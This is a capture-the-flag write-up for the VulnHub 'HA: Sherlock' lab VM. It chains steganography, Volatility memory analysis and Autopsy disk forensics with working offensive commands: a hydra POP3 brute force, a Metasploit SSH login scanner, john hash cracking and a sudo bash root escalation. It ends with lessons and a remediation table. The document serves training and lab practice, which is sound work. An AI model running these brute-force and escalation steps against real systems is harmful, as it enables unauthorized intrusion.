





# HA: Sherlock — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.170 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux (forensics VM) |
| **Total Points** | 100 |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-sherlock,580/) |

## Attack Summary

`nmap → HTML source clue → Morse decode → OurSecret video steg → POP3 brute (hydra) → epoch timestamp → Volatility notepad → ROT13 → FTP john/Guptchar → Autopsy disk image → DeepSound WAV → base64 → su sherlock → sudo bash → root`

## Methodology

1. Service enumeration (FTP, SSH, SMTP, HTTP, POP3, IMAP)
2. Web source code review → video file hint
3. Morse code decode (SSH banner) → steganography password
4. POP3 brute force → email with timestamp
5. Epoch conversion → web directory with memory dump
6. Volatility analysis of Windows memory → ROT13 → FTP login
7. FTP download → Autopsy disk forensics → SSH brute
8. Meterpreter → `jim.wav` → DeepSound → base64 → `su` → `sudo bash` → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -sV 192.168.0.170
```

Open ports: 21 (FTP), 22 (SSH), 25 (SMTP), 80 (HTTP), 110 (POP3), 143 (IMAP) and SSL variants.



---

## Step 2: Web Source Code — Hidden Video Clue

Browse to `http://192.168.0.170/` and view page source:

```html
<!-- irene.mp4 → Sherlock clue -->
```

Download `irene.mp4`. Open the SSH banner: it contains **Morse code**.

```bash
# SSH banner decodes Morse → BASKERVILLE
```

Extract steganographic content from the video:

```bash
# Use OurSecret with password: BASKERVILLE
# Output: 15_points.txt (15 pts)
```



---

## Step 3: POP3 Brute Force

```bash
hydra -l harshit -P /usr/share/wordlists/rockyou.txt 192.168.0.170 pop3s
# Password: superman
```

Read emails via POP3:

```bash
openssl s_client -connect 192.168.0.170:995
USER harshit
PASS superman
LIST
RETR 1
```

Email body contains a timestamp: **May 27, 2020 11:02:09 AM**.



---

## Step 4: Epoch Timestamp → Web Directory

Convert the email timestamp to Unix epoch:

```bash
date -d "May 27 2020 11:02:09" +%s
# 1590573729
```

Browse `http://192.168.0.170/1590573729/`:
- `10_Points.txt` (10 pts)
- `john.mem` (Windows memory dump)

---

## Step 5: Volatility Memory Forensics

```bash
volatility -f john.mem imageinfo
# Profile: WinXPSPx86
volatility -f john.mem --profile=WinXPSPx86 notepad
# Output text: Thcbgpune (ROT13)
echo "Thcbgpune" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# Guptchar
```



---

## Step 6: FTP Login and Disk Forensics

```bash
ftp 192.168.0.170
# User: john / Password: Guptchar
get mycroft.001
```

Open `mycroft.001` in **Autopsy** (raw disk image → file analysis):
- Directory `important/` → `10_points.txt` (10 pts) + `hint.jpg`
- Hint: hex `16` → decimal 22 (SSH port); hex string → `khufiya`

---

## Step 7: SSH Brute Force with Metasploit

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.170
set USERNAME mycroft
set PASS_FILE /tmp/pass.txt   # contains Khufiya
run
sessions -u 1
sessions 2
download 15_Points.txt
download jim.wav
```

---

## Step 8: DeepSound → Base64 → Root

```bash
python /usr/share/john/deepsound2john.py jim.wav > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# Password: poohbear
```

Open `jim.wav` in **DeepSound** with `poohbear` → extract two files:
1. `15_pts.txt` (15 pts)
2. Fake PGP message with base64: `QmhlZGl5YQ==`

```bash
echo "QmhlZGl5YQ==" | base64 -d
# Bhediya
su sherlock
# Password: Bhediya
sudo -l
sudo bash
cd /root
cat final.txt
cat 25_Point.txt
```



---

## Points Summary

| Source | Points |
|--------|--------|
| Video steganography (OurSecret) | 15 |
| Epoch web directory | 10 |
| FTP (john/Guptchar) | 10 |
| Autopsy disk image | 10 |
| Meterpreter session | 15 |
| DeepSound WAV | 15 |
| Root flag | 25 |
| **Total** | **100** |

---

## Lessons Learned

1. **Clue chaining** — each step reveals credentials or a path for the next; track everything
2. **Morse code and ROT13** are classic CTF encodings — always try basic ciphers on suspicious strings
3. **Memory forensics with Volatility** can recover text that was visible on screen
4. **Steganography in audio files** (DeepSound) and video (OurSecret) are common CTF vectors
5. **sudo misconfiguration** (`sudo bash`) gives trivial root if an account has unrestricted sudo

## Remediation

| Issue | Fix |
|-------|-----|
| Weak POP3 password | Enforce strong passwords; use 2FA for mail |
| Unrestricted sudo | Limit sudo to specific commands; never allow `sudo bash` |
| Sensitive data in steganography | Defense-in-depth; do not rely on steganography as a security control |
| World-readable memory dump on web server | Remove forensic artifacts; restrict access to sensitive directories |
